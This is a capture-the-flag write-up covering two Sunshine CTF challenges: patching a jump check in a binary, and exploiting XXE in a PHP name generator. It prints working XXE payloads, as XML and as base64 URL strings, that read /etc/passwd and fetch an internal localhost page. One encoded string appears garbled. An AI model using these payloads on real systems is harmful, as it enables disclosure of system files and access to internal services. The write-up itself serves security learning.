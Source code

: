 # Sunshine CTF

## Challenge #1: Patches Punches (reversing)

This challenge was a reversing challenge. The hint presented was: 

```
That moment when you go for a body slam and you realize you *jump* too far. Adjust your aim, and you'll crush this challenge!
```

So immediately, I knew that the challenge has something to do with jumps. The first step I took was executing the binary. The program outputed a single line with no means of input.

```bash
$ ./patches
$ Woah there! you jumped over the flag.
```

Upon openning the binary in Binary Ninja, I inspected the code initally to find where the program prints its flag and at what point it branches away from normal execution and prints the previous output. The following portion of the assembly 

```assembly
00000539  c745f001000000     mov     dword [ebp-0x10 {var_18}], 0x1
00000540  837df000           cmp     dword [ebp-0x10 {var_18}], 0x0
00000544  755d               jne     0x5a3  {0x1}
```

If the `cmp` evaluates to "not-equal," the program jumps to print the error message ("Woah there! you jumped over the flag!"). And the jump will always evaluates to "not-equals" because 1 is moved into `var_18` and then is compared to 0. Somehow I had to change the value in `var_18` to 0.

So, to solve this, I just patched the binary file (altering the contents of the binary) using Binary Ninja. I just changed the `cmp` function to compare the value in `var_18` with **0x01** rather than **0x00**.

![Screenshot](/ctf/images/1pic2.png?raw=true)

Running the file now produces the flag.


## Challenge #2: Wrestler Name Generator (web)

This challenge presented a website which, upon entering the first and last name and choosing a weapon of choice, would generate a wrestler name. The landing page looks like this:
tput.
![Screenshot](/ctf/images/pic1.png?raw=true)

**Screenshot of the main landing page**

![Screenshot](/ctf/images/pic2.png?raw=true)

**Screenshot of the result page**

The first step I took was to look at the page source, and I found the javascript at the bottom of the page (included below). I noticed that the main purpose of the JS is to pass the entered first and last name as an XML object, encoded as base-64 and made safe for URL as a GET parameter to the page /generate.php?input=XMLSTRING.

```javascript
document.getElementById("button").onclick = function() {
  var firstName = document.getElementById("firstName").value;
  var lastName = document.getElementById("lastName").value;
  var input = btoa("<?xml version='1.0' encoding='UTF-8'?><input><firstName>" + firstName + "</firstName><lastName>" + lastName+ "</lastName></input>");
  window.location.href = "/generate.php?input="+encodeURIComponent(input);
};
```

Similarly, examining the source code of the result page (second screenshot) yielded this interesting comment: 

```
<!--hacker name functionality coming soon!-->
<!--if you're trying to test the hacker name functionality, make sure you're accessing this page from the web server-->
<!--<h2>Your Hacker Name Is: REDACTED</h2>-->
```

Immediately, I thought about exploiting the common XXE (XML External Entity) vulnerability. Rather than entering the XML exploit into the input element of the website, I tried passing the XML string drectly into the URL `http://ng.sunshinectf.org/generate.php?input=[XML]`.

The XML object format was this:

```xml
<?xml version='1.0' encoding='UTF-8'?>
<input>
  <firstName>firstName</firstName>
  <lastName>lastName</lastName>
</input>
```

Encoded into a URL safe base-64 string, this XML object became this: `PD94bWwgdmVyc2lvbj0nMS4wJyBlbmNvZGluZz0nVVRGLTgnPz4KPGlucHV0PgogIDxmaXJzdE5hbWU%2BZmlyc3ROYW1lPC9maXJzdE5hbWU%2BCiAgPGxhc3ROYW1lPmxhc3ROYW1lPC9sYXN0TmFtZT4KPC9pbnB1dD4%3D` passing that string to the generate.php page as the input parameter successfully rendered the page.

I then tried to pass an XML entity exploit to see if it would yield a result. So, I tried accessing `/etc/passwd`. I used the following XML code:

```xml
<?xml version='1.0' encoding='UTF-8'?>
<!DOCTYPE ernw [ <!ENTITY xxe SYSTEM "file:///etc/passwd" > ]>
<input>
  <firstName>Kim</firstName>
  <lastName>&xxe;</lastName>
</input>
```

Which encoded and made URL safe yielded the string: `PD94bWwgdmVyc2lvbj0nMS4wJyBlbmNvZGluZz0nVVRGLTgnPz4KPCFET0NUWtionVBFIGVybncgWyA8IUVOVElUWSB4eGUgU1lTVEVNICJmaWxlOi8vL2V0Yy9wYXNzd2QiID4gXT4KPGlucHV0PgogIDxmaXJzdE5hbWU%2BS2ltPC9maXJzdE5hbWU%2BCiAgPGxhc3ROYW1lPiZ4eGU7PC9sYXN0TmFtZT4KPC9pbnB1dD4%3D`. This string, entered into the URL parameter yielded the following result page.

![Screenshot](/ctf/images/pic4.png?raw=true)

This is promising! It shows the contents of `/etc/passwd`. So let;s try to figure out how to get the actual flag. I thought that it might have to do with the aoffrementioned comment on the /generate.php page (that the page needs to be accessed from the webserver to see the secret Hacker Name). So I tried to use the XML function to access a remote host's page by replacing `file:///etc/passwd` with `http://localhost/generate.php`. The final XML string passed was:


```xml
<?xml version='1.0' encoding='UTF-8'?>
<!DOCTYPE ernw [ <!ENTITY xxe SYSTEM "http://localhost/generate.php" > ]>
<input>
  <firstName>Kim</firstName>
  <lastName>&xxe;</lastName>
</input>
```

Whhich was translated into this string: `PD94bWwgdmVyc2lvbj0nMS4wJyBlbmNvZGluZz0nVVRGLTgnPz48IURPQ1RZUEUgZXJudyBbIDwhRU5USVRZIHh4ZSBTWVNURU0gImh0dHA6Ly9sb2NhbGhvc3QvZ2VuZXJhdGUucGhwIiA%2BIF0%2BPGlucHV0PjxmaXJzdE5hbWU%2BS2ltPC9maXJzdE5hbWU%2BPGxhc3ROYW1lPiZ4eGU7PC9sYXN0TmFtZT48L2lucHV0Pg%3D%3D`, which passed to the /generate.php page yielded the flag:

![Screenshot](/ctf/images/pic5.png?raw=true)
